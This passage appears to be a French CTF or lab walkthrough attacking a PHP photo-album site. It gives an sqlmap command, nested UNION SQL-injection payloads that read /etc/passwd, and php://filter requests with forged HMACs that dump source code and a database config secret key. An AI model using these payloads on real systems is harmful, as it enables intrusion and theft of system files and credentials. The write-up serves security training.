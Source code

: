 ```bash
sqlmap -u "http://$TARGET/album.php?short_tag=smart" -p short_tag \
       --risk 3 --level 5 --batch -D web --statement --hex
```

> **Analyse** : requête de premier niveau `SELECT id FROM albums WHERE short_tag='<payload>'`.

### 2.3 Chaines d’injections imbriquées (manuel)

| Étape                                | URL / Commande                                                                         | Résultat attendu                |
| ------------------------------------ | -------------------------------------------------------------------------------------- | ------------------------------- |
| Contrôle de `album_id`               | `...short_tag=jxf' UNION SELECT 0-- -`                                                 | Page affiche l’`id` 0           |
| Retour de toutes les images          | `...short_tag=jxf' UNION SELECT "0 OR 1=1-- -"-- -`                                    | Trois albums fusionnés affichés |
| Découverte du bon nombre de colonnes | `...short_tag=jxf' UNION SELECT "0 UNION SELECT 1,2,3-- -"-- -`                        | Pas d’erreur SQL                |
| Inclusion de `/etc/passwd`           | `...short_tag=jxf' UNION SELECT "0 UNION SELECT 1,2,0x2f6574632f706173737764-- -"-- -` | Le HMAC s’affiche en HTML       |

Télécharger le fichier système :

```bash
tCurl "http://$TARGET/image.php?hash=<HMAC>&path=/etc/passwd" | head
```

---

## 4. Phase 3 : audit du code PHP & récupération de la clé HMAC

### 3.1 Lecture d’`album.php` via `php://filter`

```bash
PASS='php://filter/convert.base64-encode/resource=album.php'
HASH=$(python3 hash_calc.py "$PASS")
tCurl "http://$TARGET/image.php?hash=$HASH&path=$PASS" | base64 -d | less
```

### 3.2 Lecture de `dbconfig.php`

Même principe :

```bash
PASS='php://filter/convert.base64-encode/resource=dbconfig.php'
HASH=$(python3 hash_calc.py "$PASS")
tCurl "http://$TARGET/image.php?hash=$HASH&path=$PASS" | base64 -d
```

Extrait obtenu :

```
$SECRET_KEY='an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW';
```

### 3.3 Script Python de calcul HMAC (annexe A)
